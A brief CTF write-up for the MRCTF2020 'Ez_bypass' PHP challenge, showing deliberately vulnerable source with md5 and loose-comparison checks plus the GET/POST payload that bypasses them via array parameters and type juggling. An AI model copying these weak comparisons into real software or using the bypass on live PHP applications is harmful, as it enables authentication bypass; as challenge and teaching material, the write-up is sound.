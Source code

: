 ## [MRCTF2020]Ez_bypass

`php代码审计`

`弱类型比较`

```php
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first
```

`payload`

```
GET:
?gg[]=1&id[]=2

POST
passwd=1234567a
```
